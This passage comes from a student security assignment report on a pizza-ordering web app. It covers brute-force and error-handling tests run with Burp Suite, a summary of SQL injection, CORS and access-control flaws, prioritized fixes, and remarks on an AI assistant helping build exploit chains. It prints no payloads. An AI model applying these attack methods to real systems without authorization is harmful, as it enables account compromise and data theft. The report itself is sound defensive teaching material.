<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Modified the <code>menuId</code> to an invalid value in Burp Repeater. The server responded with a <code>500 Internal Server Error</code> and a message indicating the ID was not found. While no sensitive internal information was exposed, the use of a 500 error suggests improper error handling for invalid input.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">


</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The backend should validate input more robustly and return appropriate client error responses such as <code>400 Bad Request</code> instead of a <code>500 Internal Server Error</code>.</td></tr>
</table>

#### Attack 5 — Brute Force Login (No Rate Limiting)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A07 Identification and Authentication Failures</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">2</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Used Burp Intruder to perform multiple login attempts against the <code>PUT /api/auth</code> endpoint by varying the password field while keeping the email constant. The system processed all requests without any noticeable delay, rate limiting, or account lockout, indicating that brute force protections are not implemented.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">


</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Implement rate limiting, account lockout mechanisms, or progressive delays after multiple failed login attempts to prevent brute force attacks.</td></tr>
</table>

---

## Combined Summary of Learnings

### What We Learned About Our Own Systems (Self-Attacks)

For both of us, self-testing turned out to be the most eye-opening part of this whole exercise. It's one thing to build
an app that works — it's another to sit down and actively try to break it.

Jay's self-attacks uncovered 6 exploitable vulnerabilities (severities 2–4) in his deployment — SQL injection,
unauthenticated franchise deletion, price manipulation, CORS misconfiguration, and information disclosure — all before
Marco ever touched the system. Just asking "how would I abuse this?" while reading his own code surfaced things that
normal development and testing completely missed.

Marco had a similar experience. His app looked fine through the frontend, but once he started intercepting requests with
Burp Suite, real problems showed up. He found the same unauthenticated `DELETE /api/franchise` endpoint, a price
manipulation bug where the server blindly trusted client-supplied values, stack traces leaking internal file paths, and
a wide-open CORS configuration. After finding each issue, he patched it — adding auth checks, server-side price lookups,
generic error responses, and a restricted origin allowlist.

The takeaway for both of us: **thinking like an attacker against your own code is a fundamentally different activity
than building or debugging it, and it finds things nothing else does.**

### What We Learned From Attacking Each Other (Peer Attacks)

The results from our peer attacks were asymmetric, and that asymmetry itself was a lesson. Jay found 10 exploitable
issues on Marco's server, including a full kill chain from self-registered user to admin takeover. Marco's 5 attacks
against Jay found that most endpoints were already defended (3 severity-0 results), with only improper error handling
(severity 1) and missing rate limiting (severity 2) as weaknesses. A big reason for that gap is that Jay had already
patched vulnerabilities like server-side price validation during his self-attack phase — so **the self-attack phase
directly hardened his system before the peer phase even started.**

Our tooling and approaches were also quite different, and that mattered. Jay leaned on curl-based injection and chained
exploits into kill chains. Marco used Burp Suite to intercept and modify requests, and ran Burp Intruder for brute force
testing. That difference in technique meant we found different things — Marco's brute force test revealed that neither
server had rate limiting on the login endpoint, something Jay's injection-focused self-testing never flagged.
**Different testers really do bring different perspectives**, and the combination gives you much better coverage than
either one alone.

Even when Marco's attacks were blocked (like trying admin actions with a regular user token, or manipulating prices on
Jay's already-patched server), seeing those defenses hold was still valuable — it confirmed the fixes actually worked in
practice.

### Key Themes

1. **A single unparameterized query can compromise an entire system.** The SQL injection in `database.js:updateUser()`
   was present on both our servers and was the root cause behind the most severe attacks — privilege escalation, full
   database extraction, admin account takeover, and persistent data manipulation. One fix (parameterized queries) would
   have blocked the entire kill chain.

2. **Every state-changing endpoint needs authentication and authorization.** The `DELETE /api/franchise` endpoint lacked
   auth middleware on both servers, letting any anonymous user delete franchise data. Neither of us caught this during
   normal development — it was a copy-paste oversight in the starter code, and it showed us that missing a single auth
   check on a critical endpoint can have serious consequences.

3. **The server must be the source of truth for business logic.** Both servers initially accepted client-supplied prices
   without validation, allowing free or negative-price orders. Jay patched this before the peer phase (Marco's attack
   confirmed the fix worked), but Marco's server still had the issue. You simply cannot trust client-provided values for
   pricing, quantities, or permissions.

4. **Defense in depth works — and its absence is visible.** Marco changed the default admin credentials and JWT secret
   (which blocked two of Jay's attacks), but left SQL injection open, which gave Jay an alternative path to admin access
   anyway. No single fix is sufficient when multiple vulnerability classes exist.

5. **Information disclosure gives attackers a roadmap.** Stack traces with file paths, database hostnames in
   `/api/docs`, `X-Powered-By: Express` headers, and `robots.txt` advertising `/admin-dashboard/` all helped map
   internal architecture and plan targeted attacks. Both of us found that our production environments were revealing way
   too much.

6. **CORS misconfiguration is a silent, high-impact vulnerability.** Both servers reflected arbitrary origins with
   `Access-Control-Allow-Credentials: true`, meaning any malicious website could make authenticated API calls on behalf
   of a logged-in user. Combined with JWTs that never expire and are stored in `localStorage`, this creates a persistent
   credential theft vector that requires no user interaction beyond visiting a malicious page.

7. **Rate limiting is invisible until someone tests for it.** Neither server had rate limiting on login endpoints. This
   wasn't caught by self-testing focused on injection and access control — it took Marco's Burp Intruder approach to
   surface it. Brute force protection is easy to overlook because the system "works fine" without it.

8. **Attackers chain vulnerabilities.** The most impactful attack (Jay's Attack 10 — full kill chain) wasn't a single
   exploit but a combination: information disclosure revealed the schema, SQL injection extracted credentials,
   credential overwrite enabled admin login, and the admin JWT enabled business data modification. Fixing any single
   link in the chain would have limited the blast radius.

9. **AI is a force multiplier for security testing — for attackers and defenders alike.** Jay used Claude's security
   analysis capabilities to discover the majority of his exploits. The AI identified attack vectors like the SQL
   injection kill chain, CORS misconfiguration, and the unauthenticated DELETE endpoint — things that might have taken
   much longer to find manually or that we might not have thought to try at all. It constructed the exact payloads,
   recognized patterns in error responses, and chained vulnerabilities together into a full exploit path. The scary part
   is that if an AI can help a student find these issues in an afternoon, it can help a malicious actor do the same
   thing. In an era where AI dramatically lowers the skill barrier for offensive security, investing in secure coding
   practices and defense in depth isn't optional — it's urgent.

### Recommendations (Priority Order)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr>
  <th style="padding:6px 12px; border:1px solid #ddd; text-align:left;">Priority</th>
  <th style="padding:6px 12px; border:1px solid #ddd; text-align:left;">Fix</th>
  <th style="padding:6px 12px; border:1px solid #ddd; text-align:left;">Impact</th>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Critical</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Parameterized queries in <code>database.js</code></td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Blocks all SQL injection variants and the full kill chain</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Critical</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Auth middleware on every sensitive endpoint, especially <code>DELETE /api/franchise</code></td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Prevents anonymous data destruction; admin actions restricted to verified users</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">High</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Server-side price validation in order endpoint</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Prevents free/negative-price orders; never trust client-provided values</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">High</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">CORS allowlist (only production frontend origin)</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Prevents cross-origin credential theft; no credentials for untrusted domains</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Medium</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Strip stack traces in production (<code>NODE_ENV=production</code>)</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Stops information leakage; return generic error messages to clients</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Medium</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">JWT expiration (<code>expiresIn</code> on <code>jwt.sign()</code>)</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Limits lifetime of stolen tokens</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Medium</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Rate limiting on <code>PUT /api/auth</code></td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Prevents brute force password guessing</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Low</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Remove DB hostname from <code>/api/docs</code>, remove <code>X-Powered-By</code></td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Reduces attack surface reconnaissance</td>
</tr>
<tr>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Low</td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Return <code>400</code> instead of <code>500</code> for invalid <code>menuId</code></td>
  <td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Proper error handling for bad input</td>
</tr>
</table>

### Final Reflection

This assignment showed both of us that building a working application is not the same as building a secure one. Our apps
worked great from a user's perspective — but the moment we started poking at them with Burp Suite and curl, real
vulnerabilities fell out everywhere.

The combination of self-testing and peer-testing was what made this exercise so effective. Self-testing helped us each
identify and fix our biggest issues before anyone else saw them, and peer-testing brought fresh eyes and different
techniques that caught things we'd missed on our own. Security really does improve through iteration — test, fix, retest
— and having a second person involved makes that cycle significantly more thorough.

One thing that really stood out was how much AI accelerated the process. Jay used Claude to help analyze the codebase
for vulnerabilities, and it surfaced exploit paths — complete with working payloads — that would have been easy to miss
otherwise. It's a genuinely powerful tool for defenders, but it's also a reminder that attackers have access to the same
capabilities. The barrier to finding and exploiting vulnerabilities is lower than it's ever been, which makes writing
secure code from the start that much more important.

If there's one thing we're both taking away from this, it's that security can't be an afterthought or something you
assume is fine once the app is deployed. It's an ongoing process that requires actively trying to break your own stuff,
having someone else try to break it too, and recognizing that the tools available to both sides are only getting more
powerful.
